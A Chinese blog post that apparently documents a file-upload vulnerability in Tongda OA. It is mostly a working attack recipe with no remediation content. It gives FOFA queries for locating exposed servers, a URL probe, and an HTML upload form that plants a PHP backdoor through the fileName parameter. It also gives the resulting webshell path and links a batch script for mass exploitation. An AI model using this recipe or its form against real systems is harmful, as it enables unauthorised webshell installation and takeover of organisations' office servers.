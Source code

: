 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

#### 一、目标
fofa搜索
- `title="网络智能办公管理系统"`
- `app="通达OA"`

- 测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 在本地创建上传脚本为test.html，打开test.html上传后门

\\<form enctype="multipart/form-data" action="http://ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

\\<input type="file" name="Filedata" size="50"><br>

\\<input type="submit" value="Upload">

\\</form>

- 以ma.jpg形式上传，上传后自动帮你重命名为test.php,可在url里自行设置
- 上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`
- 批量脚本
`https://github.com/qiya7/daily-code/blob/master/fofa_tongdaOA.py`
![](https://upload-images.jianshu.io/upload_images/15634342-db5e6a3bf68d49aa.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)












